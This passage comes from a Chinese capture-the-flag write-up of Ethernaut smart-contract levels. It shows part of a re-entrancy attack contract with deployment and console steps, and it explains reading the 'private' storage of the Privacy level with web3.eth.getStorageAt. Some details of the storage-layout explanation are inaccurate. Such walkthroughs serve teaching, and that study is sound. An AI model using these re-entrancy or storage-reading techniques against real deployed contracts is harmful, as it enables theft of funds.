    ```solidity
           ReEntrance(Instance).withdraw(_amount);
       }
   
       fallback() external payable {
           ReEntrance(Instance).withdraw(msg.value);
       }
   }
   ```

2. 部署上述合约，并在constructor中填写实例的地址。

3. 在console中输入：

   ```
   contract.donate("实例地址",toWei("0.6"))
   ```

4. 再回过头来调用hack函数，并输入参数：60000000000000000

5. over

## Privacy

### 要求

- 理解 storage 的原理
- 理解 parameter parsing 的原理
- 理解 casting 的原理

### 漏洞

1. 根据solidity 文档中的[变量存储原则](https://learnblockchain.cn/docs/solidity/internals/layout_in_storage.html),以太坊存储数据时是以每32bytes作为一格**顺序存储**的,而**不足32字节**的变量**相互共享并补齐32字节**（即:存储大小少于 32 字节的多个变量会被打包到一个 存储插槽storage slot 中）。
2. 第一个32 字节就是由locked（1位）、flattening（3位）、denomination（8位）、awkwardness（16位）组成，另外由于常量(constant)是无需存储的，所以从第二个32 字节开始就是 data。 因此只需要将第五个存储槽内容取出即可。
3. ![image-20220803163458942](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220803163458942.png)

### 攻略

1. 使用以下语句获取data的数据

```
web3.eth.getStorageAt(instance, 5 ,function(x,y){console.info(y);})
```

2. 调用unlock函数，并传入获取到的data[2]，即前32位

   ![image-20220803163935869](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220803163935869.png)

3. over

![image-20220803164033625](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220803164033625.png)
